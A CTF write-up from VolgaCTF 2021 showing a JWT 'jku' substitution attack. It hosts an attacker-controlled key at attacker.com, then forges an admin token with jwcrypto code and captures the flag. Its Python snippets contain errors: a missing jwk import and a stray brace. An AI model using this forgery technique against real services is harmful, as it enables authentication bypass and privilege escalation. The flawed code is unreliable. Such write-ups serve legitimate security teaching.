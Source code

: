 ```yaml
---
layout: post
title:  "JWT"
tags: ctf
author: f02a8dfe
---
```

JWT
VolgaCTF Qualifier, 27th March 2021

The author provided a simple site with registration and login functionality.

Once logged in the site set a cookie:

<pre class="highlight" style="word-break:break-word;white-space:inherit">
Set-Cookie: token=eyJraWQiOiJIUzI1NiIsImFsZyI6IkhTMjU2In0.eyJqa3UiOiJodHRwOi8vbG9jYWxob3N0OjgwODAvc2VjcmV0IiwiZXhwIjoxNjE3NTQ2NTE4LCJqdGkiOiJFX3JzNEpZc2RGQ2hxSDM2dHJndUV3IiwiaWF0IjoxNjE2OTQxNzE4LCJuYmYiOjE2MTY5NDE1OTgsInN1YiI6ImFiY2QifQ.MdKqbbfQ7f2Y4tS0eJhH1bvuBVRyJj9HMCSdGL2aMOs;
</pre>

including the following header:

```
{
  "kid": "HS256",
  "alg": "HS256"
}
```

and claims:

```
{
  "jku": "http://localhost:8080/secret",
  "exp": 1617459556,
  "jti": "hQT90SFLRlhi_xSJlB2KWg",
  "iat": 1616854756,
  "nbf": 1616854636,
  "sub": "username"
}
```

The `jku` is "a URI that refers to a resource for a set of JSON-encoded public keys, one of which corresponds to the key used to digitally sign the JWS" [(RFC 7515)][rfc].

A base 64 encoded octal JSON Web Key (JWK) for HS256 was generated with [jwcrypto][jwcrypto]:

{% highlight python %}
from jwcrypto import jwt

# create key
key = jwk.JWK(generate='oct', size=256)
print(key.export())
{% endhighlight %}

and the following JSON, designed to match the token header, was hosted at `http://attacker.com/secret`:

```
{
  "kty": "oct",
  "kid": "HS256",
  "alg": "HS256",
  "k": "Ja0vLfBnpQ6_HTzVEn60eRklKHT2lE8zF0-8ZbqAGkk"
}
```

By updating the claims `jku` and `sub` values:

```
{
  "jku": "http://attacker.com/secret",
  "exp": 1617459556,
  "jti": "hQT90SFLRlhi_xSJlB2KWg",
  "iat": 1616854756,
  "nbf": 1616854636,
  "sub": "admin"
}
```

and signing a new token with the key from `http://attacker.com/secret`:

{% highlight python %}
from jwcrypto import jwt, jwk

# import key
k = {"k":"Ja0vLfBnpQ6_HTzVEn60eRklKHT2lE8zF0-8ZbqAGkk","kty":"oct"}
key = jwk.JWK(**k)

# content
header = {"kid": "HS256","alg": "HS256"}
claims = {"jku": "http://attacker.com/secret",
          "exp": 1617459556,"jti": "hQT90SFLRlhi_xSJlB2KWg",
          "iat": 1616854756,"nbf": 1616854636,"sub": "admin"}
}
          
# create token
token = jwt.JWT(header=header,claims=claims)
token.make_signed_token(key)
print(token.serialize())
{% endhighlight %}

When the token was submitted the web server retrieved the key from `http://attacker.com/secret`, validated the tampered token and returned the flag:

{% highlight html %}
<!DOCTYPE HTML>
<html>
<head>
  <title>Main Page</title>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
  <link rel="stylesheet" type="text/css" href="css/style.css">
</head>
<body>
<div class="login-box">
  
    <h2>Hello, admin</h2>
    <div style="color: #03e9f4">
      Flag is here VolgaCTF{jW5_jku_5u85T1TUt10n}
    </div>
    <div class="submit-button">
      <span></span>
      <span></span>
      <span></span>
      <span></span>
      <a href="/logout">Logout</a>
    </div>
  
</div>
</body>
</html>
{% endhighlight %}

[rfc]: https://tools.ietf.org/html/rfc7515#page-10
[jwcrypto]: https://jwcrypto.readthedocs.io/


